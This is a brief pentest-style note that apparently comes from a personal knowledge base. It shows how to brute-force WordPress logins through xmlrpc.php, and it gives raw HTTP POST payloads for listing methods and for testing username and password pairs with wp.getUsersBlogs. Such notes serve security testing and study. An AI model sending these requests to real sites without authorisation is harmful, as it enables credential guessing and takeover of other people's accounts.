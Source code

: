 ----
- Tags: #web #scripting #bash #tools #wordpress
----
You can use brute force in [[WordPress]] to tramit using POST method to the xmlrpc.php file with a XML structure like [[Wpscan]].
```xml
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
And then, find out valid credentials using this:
```xml
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Username</value></param> 
<param><value>Password</value></param> 
</params> 
</methodCall>
```